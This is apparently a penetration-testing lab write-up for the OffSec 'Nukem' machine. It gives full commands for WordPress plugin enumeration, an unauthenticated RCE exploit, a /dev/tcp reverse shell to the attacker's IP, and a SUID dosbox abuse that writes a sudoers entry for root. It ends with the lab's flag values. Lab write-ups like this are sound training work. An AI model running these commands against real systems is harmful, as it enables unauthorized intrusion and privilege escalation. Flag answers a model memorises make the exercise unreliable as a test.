








# Lab Report - Nukem


# Overview 
- **Difficulty**: Intermediate
- **Community Rating**: Hard
- **Platform**: Linux
- **Link**: https://portal.offsec.com/machine/nukem-457/overview/details
- **Resources**:
	- [Simple File List WP Plugin Unauthenticated RCE - PoC (CVE-2020-36847)](https://github.com/0xgh057r3c0n/CVE-2025-34085).

## Resolution Summary 
A WordPress website had the `Simple File List` plugin installed (`v4.2.2`), which was vulnerable to unauthenticated RCE, allowing us to gain a shell on the target. Afterwards, we abused root-level file write via the `dosbox` binary which had its SUID bit set, allowing us to grant full `sudo` privileges to our current user and gain a root shell.

# Information Gathering 
- First of all, we ran an Nmap scan scan with the aim of uncovering available services and their versions on the target. We noticed that a WordPress website was available on port 80: 
```bash
sudo nmap 192.168.108.105 -p- -sCV
```
<p align="center">
  
</p>


-  Knowing that, we attempted to list installed plugins. We found that `Simple File List v4.2.2` was available, which is vulnerable to Unauthenticated RCE (CVE-2025-34085 a.k.a CVE-2020-36847): 
```bash
 sudo wpscan --url http://192.168.108.105/ --enumerate ap --plugins-detection aggressive -t 40
```
<p align="center">
  
</p>


# Exploitation 
- Using this PoC, we could achieve RCE on the target: 
```bash
python3 CVE-2025-34085.py -u http://192.168.108.105/ --cmd "id"
```
<p align="center">
  
</p>


- Therefore, we attempted to gain a shell session on the target with a reverse shell.
- First, we set up a listener: 
```bash
penelope -p 80
```

- Next, we executed a reverse shell using the PoC and gained a shell session on the target as `http`: 
```bash
python3 CVE-2025-34085.py -u http://192.168.108.105/ --cmd "sh -i >& /dev/tcp/192.168.45.213/80 0>&1"
```
<p align="center">
  
</p>


- We retrieved the first flag: 
```bash
cat /home/commander/local.txt && id && ip a
```
<p align="center">
  
</p>


# Privilege Escalation 
- Upon enumerating binaries with SUID bit set, we found that `dosbox` was one of them, which could be abused for root-level file write: 
```bash
find / -perm -4000 -exec ls -ldb {} \; 2>/dev/null
```
<p align="center">
  
</p>


- Therefore, we abused it by granting our current user unrestricted `sudo` privileges, allowing us to immediately gain a root shell: 
```bash
dosbox -c 'mount c /' -c 'echo http ALL=(ALL:ALL) NOPASSWD: ALL >c:\etc\sudoers.d\http' -c exit
sudo su 
id
```
<p align="center">
  
</p>


- We finally collected the last flag: 
```bash
cat /root/proof.txt && id && ip a
```
<p align="center">
  
</p>


# Trophy 
**User.txt → `6717326b6fa22637da54f79f02a73138`**  

**Root.txt → `06440a415b07606fc8f9f155e1ff741f`**
